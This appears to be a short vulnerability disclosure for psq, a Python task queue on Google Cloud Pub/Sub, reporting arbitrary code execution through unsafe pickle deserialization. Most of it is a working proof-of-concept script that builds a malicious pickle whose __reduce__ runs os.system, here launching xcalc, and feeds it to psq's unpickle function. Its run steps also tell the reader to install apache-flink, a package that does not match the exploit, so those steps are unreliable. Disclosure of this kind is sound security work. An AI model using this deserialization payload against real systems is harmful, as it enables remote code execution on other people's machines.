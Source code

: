 # Description
psq is an example Python implementation of a simple distributed task queue using Google Cloud Pub/Sub.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```python
import os
import pickle
#os.system('pip3 install psq')
from psq import utils
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#Exploiting
dumps = pickle.dumps(ArbitraryCode())
utils.unpickle(dumps)
```
* `pip3 install apache-flink`
* `python3 exploit.py`
